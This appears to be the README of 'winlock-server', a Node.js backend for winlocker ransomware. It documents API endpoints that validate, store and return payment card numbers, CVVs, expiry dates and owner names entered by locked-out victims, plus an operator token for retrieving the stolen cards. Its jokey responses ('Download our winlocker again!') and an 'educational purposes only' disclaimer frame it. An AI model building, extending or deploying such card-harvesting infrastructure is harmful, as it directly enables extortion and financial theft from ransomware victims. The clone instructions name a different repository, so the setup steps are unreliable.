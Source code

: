 <br>
<h1 align="center">winlock-server</h1>
<div align="center">
  
<br>

[![Badge](https://img.shields.io/badge/Uses-Node.js-green.svg?style=flat-square)](1)
[![Badge](https://img.shields.io/badge/Open-Source-important.svg?style=flat-square)](1)
[![Badge](https://img.shields.io/badge/Made_with-Love-ff69b4.svg?style=flat-square)](1)
    
<br>

</div>

## Installation:
-   Install [Node.js](https://nodejs.org/en/),
-   Clone this repo: `git clone https://github.com/Ythosa/whynote`,
-   Install dependences by writing in console: `npm install`,
-   Write in console: `npm start`.

<br>

## Description:
-    Opensource Server on `Node.js` for Winlock Development Practice;
-    Designed for educational purposes only, the author is not responsible for how you use it;
-    The `winlock-server` can:
     *  check the card data entered by the user;
     *  save card data entered by the user;    
     *  return card data entered by the user.

<br>


## Using Example (or just funny gif):
<div align="center">
	<img src = "https://github.com/Ythosa/winlock-server/blob/master/_res/anigif.gif">
</div>

## Documentation: 

### Http request to check the map and save it to the database:

~-~ Request sample:

``` javascript
var raw = JSON.stringify({
  "digits":"4111111111111111",
  "cvv":"111",
  "date":"M/YY",
  "owner":"Sername Name"
});

var requestOptions = {
  method: 'POST',
  headers: myHeaders,
  body: raw,
  redirect: 'follow'
};

fetch("http://localhost:3000/card", requestOptions)
  .then(response => response.text())
  .then(result => console.log(result))
  .catch(error => console.log('error', error));
  
  ```
  
~-~ Response sample: 

```json
{
    "ok": true,
    "message": "Successful! Download our winlocker again!"
}
```

### Http request to get cards from BD:

~-~ Request sample:

```javascript 
var raw = JSON.stringify({"token":"hacker_from_anonymous"});

var requestOptions = {
  method: 'POST',
  headers: myHeaders,
  body: raw,
  redirect: 'follow'
};

fetch("http://localhost:3000/get_cards", requestOptions)
  .then(response => response.text())
  .then(result => console.log(result))
  .catch(error => console.log('error', error));
```

~-~ Response sample:

```json
[
    {
        "digits": "4111111111111111",
        "cvv": "111",
        "date": "M/YY",
        "owner": "SERNAME NAME",
        "card_details_error": null
    }
]
```

### Http request to get server information:

~-~ Request sample:

```javascript
var requestOptions = {
  method: 'GET',
  redirect: 'follow'
};

fetch("http://localhost:3000/", requestOptions)
  .then(response => response.text())
  .then(result => console.log(result))
  .catch(error => console.log('error', error));
```

~-~ Response sample:

```html
<!DOCTYPE html>
<html>

	<head>
		<title>winlock</title>
		<link rel="stylesheet" href="/stylesheets/style.css">
	</head>

	<body>
		<h1>WinLock API Server</h1>
		<p>Say BB ur PC bruh xd</p>
	</body>

</html>
```
